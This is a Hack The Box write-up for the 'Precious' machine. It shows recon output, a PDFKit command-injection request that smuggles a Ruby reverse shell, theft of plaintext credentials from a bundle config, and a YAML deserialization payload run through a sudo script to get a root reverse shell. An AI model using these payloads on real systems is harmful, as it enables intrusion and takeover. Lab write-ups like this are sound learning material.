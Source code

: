 ```yaml
---
layout: single
title: HTB - Precious
date: 2023-03-17
classes: wide
tags:
    - Ruby
    - Vulnerability
    - Scanning
    - HTB
    - Linux
---
```


Information Gathering and Vulnerability Scanning
--------------

Nmap:
```bash
$ nmap -sC -sV -A 10.10.11.189 -o nmap.out
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 12:30 EDT
Nmap scan report for 10.10.11.189
Host is up (0.037s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.31 seconds
```

---
Get headers from burpsuite and got the server software and version: **Phusion Passenger(R) 6.0.15**
```r
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Wed, 29 Mar 2023 17:11:00 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
Content-Length: 506
```
ExploitDB and CVE details does not show any vuln related. Still, it's valuable info!

---
Headers look weird to:
```r
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```
why image?

---
htmltopdf 0.12.6 is the plugin for ruby for the pdf, maybe...

<https://cyber-guy.gitbook.io/cyber-guys-blog/blogs/initial-access-via-pdf-file-silently>

---
webserver is running `pdfkit v0.8.6` for the html to pdf, here's the exploit:

<https://github.com/shamo0/PDFkit-CMD-Injection>
<https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795>


Attack & Exploits
--------------
PDFkit-CMD-Injection looks really good.

Send this post via Burp and set up netcat and python webserver:
```r
POST / HTTP/1.1
Host: precious.htb
Content-Length: 144
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://precious.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://precious.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


url=http%3a//10.10.14.101%3a4040/%3fname%3d%2520`+ruby+-rsocket+-e'spawn("bash",[%3ain,%3aout,%3aerr]%3d>TCPSocket.new("10.10.14.101",4040))'`
```

```bash
python -m http.server 80
nc -lvnp 4040 

cd /home/ruby
cat .bundle/config
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:***********" 

su henry
Password: ***********
id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
cd
cat user.txt
**************
```

Priv escalation
--------------

Run common enum and found a custom script for update dependencies:
```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Found this about priv esc in ruby:
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/
```bash
henry@precious:~$ cd /home/henry/
henry@precious:~$ vi dependencies.yml 
```
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.136/4040 0>&1'"
         method_id: :resolve
```

Set up netcat listener:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4040
listening on [any] 4040 ...
``` 

And finally run the script:
```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```




Analysis
--------------

- Outdate version on webserver is running `pdfkit v0.8.6` for the html to pdf causes a RCE for ruby user :(
- Then a plain text stored creds lead into henry user being affected
- Finally, priv esc:
    - sudo admin rights for a custom script? that's a risk
    - conbined that the scrip is not using absolute path leads into root running any dependecies.yml that is provided

Really funny box!

~ Have Fun! ~
